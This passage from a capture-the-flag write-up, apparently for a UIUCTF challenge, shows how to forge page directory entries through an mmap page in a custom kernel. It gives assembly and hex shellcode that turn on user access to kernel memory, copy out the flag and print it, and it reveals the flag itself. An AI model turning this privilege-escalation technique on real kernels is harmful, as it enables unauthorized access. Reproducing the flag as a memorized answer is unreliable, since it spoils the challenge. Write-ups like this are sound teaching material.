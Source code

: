 However, we can now edit the mmap page to be valid. We know what the page directory entries *should* be, so faking it is not hard.

However, this time, let's set the user bit in the entry for the kernel page. This gives us arbitrary kernel memory read(and write), making it easy to get the flag.

```assembly
mov eax, 13
int 0x80
mov esi, eax
mov dword ptr [esi], 0x0050d003
mov dword ptr [esi+4], 0x004000e7
mov dword ptr [esi+128], 0x020000e7
mov eax, 16
int 0x80
mov ebx, eax
mov eax, 30
int 0x80
```

Now, to get the part 1 flag, we just have to find the flag in kernel memory. In the kernel disassembly, navigating to the entry, we can see it eventually jumps to a function which calls a memcpy equivalent. At this point in time, the kernel is running in **real mode**, meaning physical memory can be directly accessed(and is by default). The kernel copies 128 bytes from physical memory address 0x44440000(part 1 flag) to 0x5a6784 in virtual memory. The kernel still won't let us write address 0x5a6784 to stdout, but now it's readable, so we can use rep movsb to copy the bytes to userland memory and then print.

```assembly
mov eax, 13
int 0x80
mov esi, eax
mov dword ptr [esi], 0x0050d003
mov dword ptr [esi+4], 0x004000e7
mov dword ptr [esi+128], 0x020000e7
mov eax, 16
int 0x80
mov ebx, eax
mov eax, 30
int 0x80
mov esi, 0x5a67c0
mov edi, 0x804c020
mov ecx, 0x80
rep movsb
xor ebx, ebx
mov ecx, 0x804c020
mov edx, 0x80
mov eax, 5
int 0x80
```
Executing this shellcode in binexec prints the part 1 flag.
```
/ $ binexec
binexec
Welcome to binexec!
Type some shellcode in hex and I'll run it!

Type the word 'done' and press enter when you are ready
Type 'exit' and press enter to quit the program
Address where I'm gonna run your code: 0804E0A0
B80D000000CD8089C6C70603D05000C74604E7004000C78680000000E7000002B810000000CD8089C3B81E000000CD80BEC0675A00BF20C00408B980000000F3A431DBB920C00408BA80000000B805000000CD80done
B80D000000CD8089C6C70603D05000C74604E7004000C78680000000E7000002B810000000CD8089C3B81E000000CD80BEC0675A00BF20C00408B980000000F3A431DBB920C00408BA80000000B805000000CD80done
Running...
uiuctf{y0uv3_m4pp3d_th3_mem_but_c4n_y0u_3xecute_c0de?}
```